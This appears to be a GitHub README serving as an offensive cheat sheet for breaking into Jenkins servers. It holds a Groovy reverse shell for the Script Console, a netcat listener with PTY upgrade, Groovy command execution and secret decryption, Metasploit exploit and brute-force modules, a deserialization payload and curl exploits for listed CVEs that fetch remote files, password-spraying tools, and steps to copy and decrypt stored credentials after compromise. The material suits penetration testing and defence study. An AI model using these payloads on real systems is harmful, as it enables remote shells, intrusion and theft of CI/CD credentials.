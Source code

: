# Secure-or-Break-Jenkins
## Hack Jenkins! it's sweet
![](https://e5s6t7j5.rocketcdn.me/wp-content/uploads/2022/02/Jenkins-Best-Security-Practices.png)

### Talks
[BlackHat USA 2022](https://www.youtube.com/watch?v=Pe9nJLZvABM)

[Hacking Jenkins - Orange Tsai](https://www.youtube.com/watch?v=_x8BsBnQPmU)

[Best Practices for securing CI/CD Pipelines](https://www.youtube.com/watch?v=i3Bx1iSzrUY)

[CI/CD Pipeline Security - AWS](https://www.youtube.com/watch?v=BprhSs1eSWw)

### Writeup
[RCE in Jenkins](https://faizal-ctf.notion.site/Jenkins-Remote-Execution-Via-Malicious-Jobs-1247f23b95f043c08e5e7e0c183223ad?pvs=4)
[Secure Jenkins CI/CD by Crowdstrike](https://www.crowdstrike.com/blog/tech-center/securing-your-jenkins-ci-cd-container-pipeline-with-crowdstrike/)

## Extras
Reverse shell from Groovy
-------------------------
```m
In the left sidebar, navigate to "Manage Jenkins" > "Script Console", or just go to $rhost:8080/script

```


```java
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

I'll leave this reverse shell tip to have a fully working PTY here in case anyone needs it , so dont do just nc -nlvp port instead do this :

```bash
stty raw -echo; (echo 'script -qc "/bin/bash" /dev/null';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-256color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp port && reset
```
Groovy Scripts
==============
Decrypt Jenkins secrets from Groovy
-----------------------------------

```java
println(hudson.util.Secret.decrypt("{...}"))
```


Command execution from Groovy
-----------------------------

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```
#### MSF exploit
**You can use MSF to get a reverse shell :

```bash
msf> use exploit/multi/http/jenkins_script_console
```
#### Bruteforce
**Jekins does not implement any password policy or username brute-force mitigation. 
Then, you should always try to brute-force users because probably weak passwords are being used (even usernames as passwords or reverse usernames as passwords).

```bash
msf> use auxiliary/scanner/http/jenkins_login
```
=====================

Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)
---------------------------------------------------------------------------
Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```


Authentication/ACL bypass (CVE-2018-1000861, Jenkins <2.150.1)
--------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2018-12-05/)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:
```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```


Metaprogramming RCE in Jenkins Plugins (CVE-2019-1003000, CVE-2019-1003001, CVE-2019-1003002)
---------------------------------------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-01-08)

Original RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html), full exploit [here](https://github.com/petercunha/jenkins-rce).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).


CheckScript RCE in Jenkins (CVE-2019-1003029, CVE-2019-1003030)
---------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-03-06/), [Credits](https://twitter.com/webpentest).

Check if a Jenkins instance is vulnerable (needs Overall/Read permissions) with some Groovy:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

Execute arbitraty bash commands:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt".execute()}}'
```

If you don't immediately get a reverse shell you can debug by throwing an exception:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){def proc="id".execute();def os=new StringBuffer();proc.waitForProcessOutput(os, System.err);throw new Exception(os.toString())}}'
```

Git plugin (<3.12.0) RCE in Jenkins (CVE-2019-10392)
----------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-09-12/), [Credits](https://iwantmore.pizza/posts/cve-2019-10392.html).

This one will only work is a user has the 'Jobs/Configure' rights in the security matrix so it's very specific.


CorePlague (CVE-2023-27898, CVE-2023-27905)
-------------------------------------------
[Jenkins Advisory](https://www.jenkins.io/security/advisory/2023-03-08/), [Credits](https://blog.aquasec.com/jenkins-server-vulnerabilities)

Note that this is only exploitable if using a *dedicated* and out-of-date [Update Center](https://www.jenkins.io/templates/updates/). Therefore most servers are not vulnerable.


Password spraying
=================

Use [this python script](./password_spraying/jenkins_password_spraying.py) or [this powershell script](https://github.com/chryzsh/JenkinsPasswordSpray).


Files to copy after compromission
=================================

These files are needed to decrypt Jenkins secrets:

* secrets/master.key
* secrets/hudson.util.Secret

Such secrets can usually be found in:

* credentials.xml
* jobs/.../build.xml

Here's a regexp to find them:
```bash
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
```


Decrypt Jenkins secrets offline
===============================

Use [this script](./offline_decryption/jenkins_offline_decrypt.py) to decrypt previsously dumped secrets.

```
Usage:
	jenkins_offline_decrypt.py <jenkins_base_path>
or:
	jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
or:
	jenkins_offline_decrypt.py -i <path> (interactive mode)
```
